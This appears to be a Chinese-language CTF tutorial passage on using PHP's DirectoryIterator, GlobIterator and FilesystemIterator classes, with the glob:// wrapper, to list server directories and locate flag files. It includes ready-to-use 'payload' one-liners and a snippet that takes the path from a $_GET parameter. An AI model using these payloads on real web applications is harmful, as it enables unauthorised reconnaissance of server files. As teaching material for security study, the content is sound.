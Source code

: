 示例：

```bash
<?php
$iterator = new DirectoryIterator('C:\\');
echo $iterator->getPathname();
?>
```

```bash
C:\$Recycle.Bin
```

遍历目录

```bash
<?php
$dir = $_GET['cmd'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString() 也可，因为 echo 可以自动调用
}
?>
```

会创建一个指定目录的迭代器。当执行到 echo 函数时，会触发 DirectoryIterator 类中的 `__toString()` 方法，输出指定目录里面经过排序之后的第一个文件名

常配合 glob://协议寻找我们想要的文件路径

```bash
<?php
$dir=new DirectoryIterator("glob:///flag");
echo $dir;
```

```bash
payload:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

## FilesystemIterator 类

[PHP: FilesystemIterator - Manual](https://www.php.net/manual/zh/class.filesystemiterator)

FilesystemIterator 提供了一个用于查看文件系统目录内容的简单接口。该类的构造方法将会创建一个指定目录的迭代器。

其实和 DirectoryIterator 类相同用法

```bash
<?php
$dir=new FilesystemIterator("C:\\");
echo $dir;
```

```bash
$Recycle.Bin
```

```bash
payload:
$a = new FilesystemIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```
